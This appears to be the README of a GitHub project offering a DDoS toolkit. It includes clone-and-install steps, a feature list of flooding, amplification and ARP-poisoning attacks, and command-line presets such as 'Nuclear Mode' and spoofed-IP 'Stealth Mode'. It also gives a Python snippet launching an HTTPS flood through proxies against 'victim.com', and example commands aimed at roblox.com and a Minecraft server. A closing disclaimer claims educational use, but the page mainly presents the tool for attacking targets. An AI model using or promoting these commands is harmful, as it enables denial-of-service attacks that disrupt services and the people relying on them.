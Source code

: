 
```markdown
<p align="center">
  <img src="https://readme-typing-svg.demolab.com?font=Roboto+Mono&weight=600&size=40&duration=4000&pause=1000&color=FF0000&background=FF2D5526&center=true&vCenter=true&width=900&height=100&lines=████████╗██████╗+███████╗███████╗;██╔═════╝██╔══██╗██╔════╝██╔════╝;█████╗+++██║++██║███████╗█████╗++;██╔══╝+++██║++██║╚════██║██╔══╝++;██║+++++██████╔╝███████║███████╗;╚═╝+++++╚═════╝+╚══════╝╚══════╝;+++++𝙳𝙳𝙾𝚂-𝙰𝚃𝚃𝙰𝙲𝙺𝙸𝙽𝙶-𝚃𝙾𝙾𝙻+++++" alt="DDoS Header">
</p>

<div align="center">
  
  ![Python](https://img.shields.io/badge/-Python_3.10%2B-blue?style=flat-square&logo=python&logoColor=white)
  ![NodeJS](https://img.shields.io/badge/-Node.js_18.x-%23339933?style=flat-square&logo=node.js&logoColor=white)
  ![License](https://img.shields.io/badge/-ISC_License-red?style=flat-square)
  ![Platform](https://img.shields.io/badge/-Win%2FLinux%2FMacOS-purple?style=flat-square)

</div>

---

```console
# 𝕯𝖊𝖕𝖑𝖔𝖞𝖒𝖊𝖓𝖙 𝕾𝖊𝖖𝖚𝖊𝖓𝖈𝖊
$ git clone https://github.com/dinethnethsara/DDOS-tool.git
$ cd DDOS-tool
$ npm install && pip install -r requirements.txt
███████████████████████████████████████████████████████
█░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░█
█░░░░░░░██████╗░███████╗░█████╗░██████╗░░██████╗░░░░░░░█
█░░░░░░░██╔══██╗██╔════╝██╔══██╗██╔══██╗██╔════╝░░░░░░░█
█░░░░░░░██║░░██║█████╗░░██║░░██║██████╔╝╚█████╗░░░░░░░░█
█░░░░░░░██║░░██║██╔══╝░░██║░░██║██╔══██╗░╚═══██╗░░░░░░░█
█░░░░░░░██████╔╝███████╗╚█████╔╝██║░░██║██████╔╝░░░░░░░█
█░░░░░░░╚═════╝░╚══════╝░╚════╝░╚═╝░░╚═╝╚═════╝░░░░░░░░█
█░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░█
███████████████████████████████████████████████████████
```

## 🚀 𝔉𝔢𝔞𝔱𝔲𝔯𝔢𝔰

### 𝕹𝖊𝖙𝖜𝖔𝖗𝖐 𝕷𝖆𝖞𝖊𝖗 𝕬𝖙𝖙𝖆𝖈𝖐𝖘
```diff
+ SYN Flood        :: TCP Connection Exhaustion
+ UDP Flood        :: Bandwidth Saturation
+ ICMP Storm       :: Ping of Death Variant
+ ARP Poisoning    :: Network Traffic Hijacking
```

### 𝕬𝖕𝖕𝖑𝖎𝖈𝖆𝖙𝖎𝖔𝖓 𝕷𝖆𝖞𝖊𝖗 𝕬𝖙𝖙𝖆𝖈𝖐𝖘
```diff
- HTTP Flood       :: Layer 7 Resource Overload
- HTTPS Flood      :: Encrypted Request Spam
- DNS Amplification:: Reflection Attack Vector
- SSL Renegotiation:: Handshake Exhaustion
```

### 𝕲𝖆𝖒𝖊 𝕻𝖗𝖔𝖙𝖔𝖈𝖔𝖑 𝕬𝖙𝖙𝖆𝖈𝖐𝖘
```bash
# Minecraft Server
./toolkit.sh --target mc.server.com --mode login-flood --threads 500

# Roblox Server
./toolkit.sh --target roblox.com --mode chat-spam --duration 120
```

---

## ✨ 𝕴𝖓𝖘𝖙𝖆𝖑𝖑𝖆𝖙𝖎𝖔𝖓

```bash
# Clone with submodules
git clone --recursive https://github.com/dinethnethsara/DDOS-tool.git

# Install dependencies
cd DDOS-tool
npm install --force
pip install -r requirements.txt --no-cache-dir

# Build components
python build.py --all --optimize
```

---

## ⚡ 𝕼𝖚𝖎𝖈𝖐 𝕾𝖙𝖆𝖗𝖙

```python
from ddos_engine import AttackManager

config = {
    "target": "victim.com",
    "port": 443,
    "attack_mode": "https-flood",
    "duration": 300,  # 5 minutes
    "threads": 1000,
    "proxy_list": "proxies.txt"
}

AttackManager.launch(config)
```

---

## 📊 𝕬𝖙𝖙𝖆𝖈𝖐 𝕻𝖗𝖊𝖘𝖊𝖙𝖘

| Preset          | Command                                                                 |
|-----------------|-------------------------------------------------------------------------|
| Nuclear Mode    | `./toolkit.sh --target example.com --nuke --threads 5000 --duration 0` |
| Stealth Mode    | `./toolkit.sh --target example.com --tps 100 --jitter --spoof-ip`      |
| Game Server     | `./toolkit.sh --target game.com --protocol minecraft --mode login`     |
| Website Takeover| `./toolkit.sh --target shop.com --http-flood --concurrent 2500`        |

---

## ⚠️ 𝕷𝖊𝖌𝖆𝖑 𝕯𝖎𝖘𝖈𝖑𝖆𝖎𝖒𝖊𝖗

<div align="center" style="border:3px solid #ff0000; padding:20px; border-radius:15px; background:#ff000010;">

❗ **𝖂𝖆𝖗𝖓𝖎𝖓𝖌: 𝕴𝖑𝖑𝖊𝖌𝖆𝖑 𝖀𝖘𝖆𝖌𝖊 𝕮𝖆𝖗𝖗𝖎𝖊𝖘 𝕾𝖊𝖛𝖊𝖗𝖊 𝕻𝖊𝖓𝖆𝖑𝖙𝖎𝖊𝖘** ❗

```
▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
█░▄▀█░▄▀▄░█░▄▀▀░█▀▄▀█░▄▀█░█▀▀░▄▀▀░░░█░█░▄▀▀░█░▄▀▄░█▄░█░▄▀▀
█░█░█░█▄█░█░▀▄▄░█░▀░█░▀▄░█▀▀░▀▄▄░░░█░█░▀▄▄░█░█▄█░█░▀█░▀▄▄
▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀
```
𝕿𝖍𝖎𝖘 𝖙𝖔𝖔𝖑 𝖎𝖘 𝖋𝖔𝖗:
- 𝕷𝖊𝖌𝖆𝖑 𝖕𝖊𝖓𝖊𝖙𝖗𝖆𝖙𝖎𝖔𝖓 𝖙𝖊𝖘𝖙𝖎𝖓𝖌
- 𝕮𝖞𝖇𝖊𝖗𝖘𝖊𝖈𝖚𝖗𝖎𝖙𝖞 𝖗𝖊𝖘𝖊𝖆𝖗𝖈𝖍
- 𝕰𝖉𝖚𝖈𝖆𝖙𝖎𝖔𝖓𝖆𝖑 𝖕𝖚𝖗𝖕𝖔𝖘𝖊𝖘 𝖔𝖓𝖑𝖞

</div>

---

<p align="center">
  <img src="https://readme-typing-svg.demolab.com?font=Roboto+Mono&size=14&duration=3000&pause=1000&color=FF0000&background=FFFFFF00&center=true&vCenter=true&width=800&height=20&lines=🚨+THIS+TOOL+SHOULD+BE+USED+ONLY+ON+NETWORKS+YOU+OWN+OR+HAVE+EXPLICIT+PERMISSION+TO+TEST+🚨" alt="Final Warning">
</p>
```
